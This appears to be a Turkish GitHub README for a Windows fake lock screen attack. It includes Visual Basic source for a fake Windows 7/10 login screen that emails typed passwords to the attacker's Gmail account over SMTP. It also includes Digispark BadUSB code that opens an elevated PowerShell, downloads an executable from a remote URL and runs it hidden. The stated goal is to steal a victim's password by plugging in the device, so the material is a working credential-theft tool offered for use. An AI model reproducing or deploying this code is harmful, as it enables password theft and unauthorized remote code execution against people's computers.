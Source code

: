 # WindowsFakeLockScreen

<strong>WIN7 OR WIN10 FAKE LOCK SCREEN MAIL SENDING</strong>

<img src="https://i.hizliresim.com/Ii5hUx.png">

<img src="https://i.hizliresim.com/COYKEc.png">

Üst kısımdaki resimden de anlayacağınız Windows 7 ve Windows 10 için sahte bir login ekranıdır.
Programı visual basic ile oluşturdum.
Mantık programda textbox kısmına girilen herhangi bir yazıyı belirlediğimiz mail adresine göndermektir.
Bu programı BadUSB ile birlikte kullanmak amaçlı oluşturdum ve BadUSB olarak Digispark kullandım.

<li>Amaç:</li>
<li>BadUSB yani Digispark bilgisayara takılır</li></li>
<li>Belirli kodlar çalışır</li>
<li>sahte login ekranı oluşur</li>
<li>Son olarak girilen şifre belirlediğimiz mail adresine gönderilir</li>

Digispark ile ilgli bilgiye ulaşmak için: https://digistump.com/wiki/digispark bu adrese bakın

Sahte görüntü tamamen bir görseldir sadece TextBox ve Button olan kısım eklenmiştir butonun daha gerçekçi gözükmesi için PictureBox olarak ayarladım.

Programı Visual Studio 2013 Ultimate kullanarak hazırladım

<strong>PROGRAMIN KAYNAK KODU</strong>

<pre><code>Imports System.Net.Mail
Public Class Form1

    Private Sub Form1_Load(sender As System.Object, e As System.EventArgs) Handles MyBase.Load

    End Sub

    Private Sub PictureBox3_Click(sender As System.Object, e As System.EventArgs) Handles PictureBox3.Click
        Dim MyMailMessage As New MailMessage()

            Try
                MyMailMessage.From = New MailAddress("mailadress@gmail.com")
                MyMailMessage.To.Add("mailadress@gmail.com")
                MyMailMessage.Subject = TextBox1.Text
                MyMailMessage.Body = TextBox2.Text
                Dim SMTP As New SmtpClient("smtp.gmail.com")
                SMTP.Port = 587
                SMTP.EnableSsl = True
                SMTP.Credentials = New System.Net.NetworkCredential("mailadress@gmail.com", "PAROLA")
                SMTP.Send(MyMailMessage)
                TextBox2.Text = ""
                Dim frm As New Form1
                frm.Show()

                Me.Close()
            Catch ex As Exception
            End Try
    End Sub

    Private Sub TextBox1_KeyDown(sender As Object, e As KeyEventArgs) Handles TextBox1.KeyDown
        If e.KeyCode = Keys.Enter Then
            Dim MyMailMessage As New MailMessage()
            MyMailMessage.From = New MailAddress("mailadress@gmail.com")
            MyMailMessage.To.Add("MAILADRESI@gmail.com")
            MyMailMessage.Subject = TextBox1.Text
            MyMailMessage.Body = TextBox2.Text
            Dim SMTP As New SmtpClient("smtp.gmail.com")
            SMTP.Port = 587
            SMTP.EnableSsl = True
            SMTP.Credentials = New System.Net.NetworkCredential("mailadress@gmail.com", "POROLA")
            SMTP.Send(MyMailMessage)
            TextBox2.Text = ""
            Dim frm As New Form1
            frm.Show()

            Me.Close()

        End If
    End Sub

    Private Sub TextBox1_TextChanged(sender As Object, e As EventArgs) Handles TextBox1.TextChanged


    End Sub

End Class
</code></pre>

Kaynak kodlardan da görebileceğiniz gibi oldukça basit bir kodlamadır.
Aynı kodları kullanarak win7 ve win10 görseli hazırladım
Kodları ikinci defa yazmamın sebebi girilen texti hem enter tuşuna bastığında hem de ekrandaki ok işaretine bastığı zaman belirlediğimiz mail adresine göndermesi içindir.

<strong>Digispark kodları</strong>

<code><pre>#define kbd_tr_tr
#include "DigiKeyboard.h"
void setup() {
}

void loop() {
  //coder sefaoruc
  //youtube youtube.com/siberdunya
  //bu kodlar win10 için sahte bir login sayfası oluşturur
  //fake lock screen win10
  DigiKeyboard.sendKeyStroke(0);
  DigiKeyboard.delay(1000);
  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
  DigiKeyboard.delay(200);
  DigiKeyboard.print(F("powershell Start-Process powershell -Verb runAs"));
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(1000);
  DigiKeyboard.sendKeyStroke(KEY_ARROW_LEFT ,KEY_Y);
  DigiKeyboard.delay(200);
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(1000);
  DigiKeyboard.print(F("Invoke-WebRequest -Uri ('DOWNLOAD_URL') -O C:/fakelock.exe"));
  DigiKeyboard.delay(500);
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.print("powershell -windowstyle hidden 'C:/fakelock.exe'");
  DigiKeyboard.delay(500);
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  for (;;) {
    /*son*/
  }
}
</code></pre>

Digispark kodlarını da bu şekilde oluşturdum

Mantık Powershell admin olarak başlatmak ve upload ettiğimiz win7 veya win10 exe dosyasını indirip çalıştırmaktır.


